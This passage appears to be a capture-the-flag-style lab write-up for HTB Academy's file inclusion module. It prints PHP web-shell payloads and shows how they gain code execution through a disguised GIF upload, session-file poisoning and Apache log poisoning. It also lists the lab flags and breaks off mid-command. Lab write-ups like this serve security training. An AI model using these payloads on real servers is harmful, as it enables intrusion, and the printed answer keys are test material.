
*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### But on the netcat listener

On the website itself we wont see anything of worth…

But on the netcat listener:

We have a shell!

Now lets look for the flag:
```bash
find / -type f -name flag.txt 2>/dev/null
```


Here it is, lets get it:
```bash
cat /exercise/flag.txt
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


*_Figure 14.4 — Lab execution and output verification (Page 14)_*


### LFI and File Uploads

> **Lab Question (Page 15)**: Use any of the techniques covered in this section to gain RCE and read the flag at /
>
> **Flag / Answer**: `HTB{upl04d+lf!+3x3cut3=rc3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the page '/settings.php':
http://<target-IP>:>target-port>/settings.php


Lets prepare our payload:
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```


The 'GIF8' is gif magic bytes, which appear at the beginning of gif file, so it
might be required here to bypass safeguards.
Now, lets upload our 'shell.gif' file (click the avatar image, then select 'shell.gif':


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Then → upload

#### Technical Methodology & Exploit Execution:

http://<target-IP>:<target-
port>/index.php?language=./profile_images/shell.gif&cmd=id


It works (ignore the 'GIF8' in the beginning).


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


### Now lets locate the obtain the flag from '/' directory

Now lets locate the obtain the flag from '/' directory:
http://<target-IP>:<target-
port>/index.php?language=./profile_images/shell.gif&cmd=ls /


The flag file is '2f40d853e2d4768d87da1c81772bae0a.txt'
http://<target-IP>:<target-
port>/index.php?language=./profile_images/shell.gif&cmd=cat
/2f40d853e2d4768d87da1c81772bae0a.txt


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### Log Poisoning

> **Lab Question (Page 18)**: Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd
>
> **Flag / Answer**: `/var/www/html`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

pwd
Answer: /var/www/html
Method: lets enter the target website:
http://<target-IP>:<target-port>

open web developer tool → storage → cookies:

The cookie in this session is 'PHPSESSID:"79tvi87ic9qrpcm5ukftlq3lhj"' and its
value is '79tvi87ic9qrpcm5ukftlq3lhj'.

Now, as in linux the cookies are stored in '/var/lib/php/sessions/', with
filename with the prefix 'sess' – like 'sess_<cookie-value>' – we can use local
file inclusion to get the file's content:
http://<target-IP>:<target-
port>/index.php?language=/var/lib/php/sessions/sess_<cookie-
value>


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### Lets try to set to Spanish

And here it is, with selected language – English and other parameters.

Lets try to set to Spanish:

It worked.
Basically is we've shown that we can modify the content of 'sess_<cookie-
value>' file on the server, by changing the value of the 'language' parameter.

So lets set 'language' – to php webshell:
http://<target-IP>:<target-port>/index.php
?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%
3F%3E


It wont show anything interesting, but now, lets enter again our cookie file,
with the cmd command 'pwd':


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### proxy interceptor off)

> **Lab Question (Page 20)**: Try to use a different technique to gain RCE and read the flag at /
>
> **Flag / Answer**: `HTB{1095_5#0u1d_n3v3r_63_3xp053d}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open the website in burpsuite browser (proxy, interceptor off):
http://<target-IP>:<target-port>

now lets use the local file inclusion to access apache log file (still burpsuite
proxy interceptor off):
http://<target-IP>:<target-
port>?language=/var/log/apache2/access.log


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### page, this time with the interceptor on

> **Lab Question (Page 21)**: (obtaining the pwd with cookie file manipulation). Anyway we can observe that those logs contain the remote IP address, request page, response code, and the User-Agent header. We can manipulate the User-Agent to gain code execution, lets refresh the page, this time with the interceptor on: The user-agent is in line 5, lets give it a little manipulation for testing:
>
> **Flag / Answer**: `Completed / Verified`
{: .prompt-info }


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


### Then – we forward the request, and observe the logs again

Then – we forward the request, and observe the logs again:

Here is our modified user-agent in the logs, which means it works!
*note – a refresh may be required for the mmodified user-agent to be
displayed. *

Lets try to modify the user-agent again, but this time to something more
potent:
<?php system($_GET['cmd']); ?>


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


And forward..
Now, interceptor off again. If the server did got the payload user-agent, we
should be able to execute commands on the 'access.log' page:
http://<target-IP>:<target-
port>?language=/var/log/apache2/access.log&cmd=ls /


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### The file near the red arrow is our flag

The file near the red arrow is our flag:
http://<target-IP>:<target-
port>?language=/var/log/apache2/access.log&cmd=cat
/c85ee5082f4c723ace6c0796e3a3db09.txt


*note, it took me several attempts to get this right, better do that directly
without any refresh between the use-agent injecting and the command in the
url path. *

Another method which will not be demonstrated here is to insert the
command directly to the user-agent payload:
<?php system('<command>');?>

Like this:
<?php system('cat /c85ee5082f4c723ace6c0796e3a3db09.txt');?>


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


### Automated Scanning

> **Lab Question (Page 25)**: Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt
>
> **Flag / Answer**: `HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the wordlist 'burp-parameter-names.txt' to bruteforce for
the exposed parameters. And the wordlist
Download it from the link above (download it manually, don't use 'wget').
Now lets run the bruteforce:
```bash
ffuf -w burp-parameter-names.txt:FUZZ -u 'http://<target-
```
IP>:<target-port>/index.php?FUZZ=value'


*
*

*
*

